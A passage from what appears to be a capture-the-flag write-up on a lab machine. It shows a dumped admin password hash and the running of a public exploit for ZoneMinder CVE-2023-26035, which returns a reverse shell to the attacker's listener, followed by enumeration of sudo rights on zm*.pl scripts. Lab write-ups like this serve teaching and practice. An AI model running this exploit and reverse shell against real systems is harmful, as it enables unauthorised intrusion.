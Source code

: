 Those credentials work for the MySQL databases named `zm`, and I get a new hash:

```text
|  1 | admin    | $2y$10$BuFy0QTupRjSWW6kEAlBCO6AlZ8ZPGDI8Xba5pi/gLr2ap86dxYd. | [...]
```

But, that's another computationally-intensive hashing algorithm.

```console
matthew@surveillance:/usr/share/zoneminder/www/includes$ dpkg -l |grep zonem
hi  zoneminder                            1.36.32+dfsg1-1                         amd64        video camera security and surveillance solution
```

This version of ZoneMinder should be vulnerable to [CVE-2023-26035](https://nvd.nist.gov/vuln/detail/CVE-2023-26035).

```console
$ python3 ./51902.py  -t http://localhost:88 -ip 10.10.14.12 -p 443
[>] fetching csrt token
[>] recieved the token: key:2f36672784048210f25b56b636d26d67933df57a,1715627714
[>] executing...
[>] sending payload..
```

```text
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.245] 41790
bash: cannot set terminal process group (1090): Inappropriate ioctl for device
zoneminder@surveillance:/usr/share/zoneminder/www$ id
id
uid=1001(zoneminder) gid=1001(zoneminder) groups=1001(zoneminder)
```

```console
zoneminder@surveillance:/usr/share/zoneminder/www$ sudo -l
sudo -l
Matching Defaults entries for zoneminder on surveillance:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
use_ptyUser zoneminder may run the following commands on surveillance:
(ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *

zoneminder@surveillance:/usr/share/zoneminder/www$ ls /usr/bin/zm[a-zA-Z]*.pl
ls /usr/bin/zm[a-zA-Z]*.pl
/usr/bin/zmaudit.pl
/usr/bin/zmcamtool.pl
/usr/bin/zmcontrol.pl
/usr/bin/zmdc.pl
/usr/bin/zmfilter.pl
/usr/bin/zmonvif-probe.pl
/usr/bin/zmonvif-trigger.pl
/usr/bin/zmpkg.pl
/usr/bin/zmrecover.pl
/usr/bin/zmstats.pl
/usr/bin/zmsystemctl.pl
/usr/bin/zmtelemetry.pl
/usr/bin/zmtrack.pl
/usr/bin/zmtrigger.pl
/usr/bin/zmupdate.pl
/usr/bin/zmvideo.pl
/usr/bin/zmwatch.pl
/usr/bin/zmx10.pl
```
